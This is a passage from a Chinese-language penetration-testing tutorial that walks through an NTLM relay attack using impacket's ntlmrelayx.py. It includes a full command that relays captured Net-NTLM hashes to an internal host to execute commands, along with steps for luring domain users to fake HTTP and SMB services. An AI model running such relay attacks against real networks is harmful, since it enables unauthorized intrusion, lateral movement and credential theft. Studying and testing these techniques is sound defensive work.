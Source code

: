 #### impacket

我们可以借助 impacket 的 ntlmrelayx.py 模块来实现 NTLM 中继攻击，具体步骤如下：  
Step 1：在攻击机上执行如下命令监听 80 和 445 端口，伪造 http 和 smb 服务

```plain
python3 ./ntlmrelayx.py -t smb://192.168.188.4 -c whoami -smb2support
```

[![](assets/1701222524-4a89a8f797f861fbf649474a823344c4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128145123-8b20f36e-8dba-1.png)  
Step 2：诱导普通域用户或者域管理员用户访问攻击机上搭建的 HTTP 或 SMB 服务  
[![](assets/1701222524-ed7cc34e3f9bc94c09c942c6ef63c5a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128145134-91c9e072-8dba-1.png)  
Step 3：在攻击主机上可以 Relay 域用户的 Net-NTLM Hash，从而在域内其他主机上执行指定的命令  
[![](assets/1701222524-050d02f9ebdcebc0226b926dc68e397e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128145148-9a34effe-8dba-1.png)

## 文末小结

Net-NTLM Hash 攻击是一个拿域内主机的方法，在横向移动中利用还是挺不错的，可以直接控制域内主机，包括但不限于在远程服务器上执行命令、上传 exe 到远程主机上执行、dump 服务器的用户 hash 等
